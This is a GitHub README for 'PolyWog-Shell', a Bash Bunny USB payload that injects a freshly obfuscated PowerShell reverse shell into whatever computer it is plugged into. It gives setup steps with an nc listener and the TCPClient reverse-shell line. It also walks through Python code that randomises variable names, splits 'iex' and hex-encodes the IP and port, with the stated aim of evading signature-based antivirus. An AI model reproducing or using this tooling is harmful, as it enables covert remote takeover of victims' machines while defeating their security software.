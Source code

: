 
# PolyWog-Shell 
### By: Hak5Peaks


## PolyWog Shell Description. 

Poly shell is a reverse shell generator designed for the Bash Bunny. This payload uses a python2 + bash script to generate a signature unique powershell payload, that evades signature based detection anti viruses. Every time the bash bunny is plugged into a computer, a unique powershell script will be injected into the target machine. 

The python2 script uses a base powershell payload and randomizes/obfuscates parts of the powershell payload. Using methods such as variable and string Obfuscation and IP and Port Encoding

## Configuations. 

This script requires minimal configuration. simply launch a nc listener `nc -lvnp PORT` and copy the IP and Port from your listener into the IP and Port variable on the payload. Then place the python2 script `shell.py` inside of the `tools` directory of the udisk.
 


### Shell + Payload configuation Example
<div style="display: flex; justify-content: center; gap: 10px;">
    <img src="https://github.com/user-attachments/assets/874226a5-6d3e-47d4-93bd-70fbf0ef5d2a" width="45%">
    <img src="https://github.com/user-attachments/assets/7f656678-575e-43b3-8988-a60a70b01169" width="45%">
</div>

### Udisk configuration Example

![image](https://github.com/user-attachments/assets/daf4b620-5d38-4ceb-86b0-95edafd0494d)


## Requirements. 

Ensure correct configuation as stated above. There is `no` other requirments or external packages that need to be install. 




# For anyone interest in the code! ↓




## Code break down - Base powershell script. 

![image](https://github.com/user-attachments/assets/4fb614fe-7593-4b43-ac6c-46bcecf88b3d)


This is the base powershell script that is plugged into the python2 script. It is a simple reverse shell that uses `System.Net.Sockets.TCPClient` to make remote connections to our netcat listener. This connection is TCP connection is kept open and the script waits for a response back from the netcat server and runs the results in shell  using `Invoke-Expression` Once a command is received and ran the output of the command is sent back using `StreamWriter` to the remote IP and Port specified in the powershell payload. Very simple :D 



## Code break down - Python obfuscator script. 

![image](https://github.com/user-attachments/assets/a4c96bab-5d59-43c3-b1d8-099a7b43eb1a)

This is the python script that stores our original powershell payload. The python script's job is to use regexing to modify, randomize and replace parts of our original powershell payload in order to create a brand new payload that achieves the same functionality as the original. 

It does it using these functions, 

First, when the script is called it takes in our command line arguments from the bash script and stores them as variables within the script 
```
ip = sys.argv[1]
port = sys.argv[2]
```
Second, the script replaces our IP and Port within out powershell payload, 
```
script = """$tcp=New-Object System.Net.Sockets.TCPClient('*LHOST*',*LPORT*);...
```
Third, the python script looks for variables names within our powershell payload and replaces them with random letters 
```
var_dict = {}
pattern = re.compile(r'(?!\$PSHOME)(\$[A-Za-z][A-Za-z0-9]+)')
def replace_var(match):
    var_name = match.group(1)
    if var_name not in var_dict:
        var_dict[var_name] = '$' + ''.join(random.sample(string.ascii_letters + string.digits, 10))
    return var_dict[var_name]

script = pattern.sub(replace_var, script)
```
Resulting in a output similar to this `$tcp -> $aBc123dEf4` 
 
Then, the python script will search for certain commands such as `iex` that can be easily changed. without creating conflicts. `iex -> i''ex`
```
pattern = re.compile(r'\biex\b')
script = pattern.sub("i''ex", script)
```
The script then moves on to convert our IP and port numbers to hex. 

```
pattern = re.compile(r'\b(?!65535)([1-9]\d{1,3}|[1-5]\d{4}|6[0-4]\d{3}|65[0-4]\d{2}|655[0-2]\d|6553[0-5])\b')
def port_to_hex(match):
    port_number = int(match.group())
    return hex(port_number)

script = pattern.sub(port_to_hex, script)
```
The brand new powershell payload is stored as shell.txt so its contents can later be used inside out bash bunny payload. 



